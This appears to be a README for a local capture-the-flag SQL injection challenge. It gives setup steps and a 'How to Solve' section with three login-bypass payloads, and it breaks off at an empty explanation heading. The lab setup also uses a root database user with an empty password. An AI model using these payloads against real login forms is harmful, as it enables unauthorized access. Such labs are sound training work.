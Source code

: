### Installation

1. **Clone the repository**
```bash
git clone https://github.com/jonalexanderhere/InjeksiBY.git
cd InjeksiBY/web_challenge_sqli
```

2. **Configure Database**
- Database akan otomatis dibuat saat pertama kali diakses
- Default config di `config.php`:
  - Host: localhost
  - User: root
  - Password: (empty)
  - Database: phoenix_ctf

3. **Start PHP Server**
```bash
php -S localhost:8000
```

4. **Access Challenge**
```
http://localhost:8000
```

---

## How to Solve

### Method 1: Classic SQL Injection

**Payload:**
```
Username: ' OR '1'='1' -- 
Password: (anything)
```

### Method 2: Comment-based Injection

**Payload:**
```
Username: admin' -- 
Password: (anything)
```

### Method 3: Always True Condition

**Payload:**
```
Username: admin' OR '1'='1
Password: (anything)
```

### Explanation
